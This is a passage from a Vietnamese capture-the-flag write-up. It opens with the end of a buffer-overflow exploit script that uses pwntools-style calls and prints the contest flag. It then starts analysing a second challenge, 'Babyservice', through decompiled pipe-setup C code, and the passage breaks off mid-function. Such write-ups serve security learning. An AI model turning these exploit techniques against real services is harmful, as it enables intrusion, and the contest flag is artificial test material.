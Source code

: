 ```py=
    info()
    stack_main += 1
logout()
sl(b'hihi')
sla(b'>', b'3')

#KCSC{st1ll_buff3r_0v3rfl0w_wh3n_h4s_c4n4ry?!?}


p.interactive()
```

## Babyservice

* Bài này thì mình không giải kịp trước khi kết thúc giải nhưng thôi cứ viết writeup vậy 

![353046855_663734792237703_1475682602241096410_n](https://hackmd.io/_uploads/S1CFUL1QC.jpg)

### Phân tích chương trình

* Khởi đầu hàm `main` có gọi vài hàm để setup
![Screenshot 2024-05-13 160108](https://hackmd.io/_uploads/SJxxDLJXA.png)

* Hàm `create_pipe`

```cpp=
unsigned __int64 create_pipe()
{
  int pipedes[2]; // [rsp+0h] [rbp-10h] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  signal(14, (__sighandler_t)handler);
  output = (char *)malloc(0x10000uLL);
  if ( pipe(pipedes) < 0 )
  {
    puts("[-] Failed to create pipe 1!");
    exit(1);
  }
  fd1_read = pipedes[0];
  fd1_write = pipedes[1];
  if ( pipe(pipedes) < 0 )
  {
    puts("[-] Failed to create pipe 2!");
    exit(1);
  }
  fd2_read = pipedes[0];
  fd2_write = pipedes[1];
  arg_1_2 = (arg_struct *)malloc(8uLL);
  arg_1_2->read = fd1_read;
  arg_1_2->write = fd2_write;
  if ( pipe(pipedes) < 0 )
  {
    puts("[-] Failed to create pipe 1!");
    exit(1);
  }
  fd3_read = pipedes[0];
  fd3_write = pipedes[1];
  if ( pipe(pipedes) < 0 )
  {
```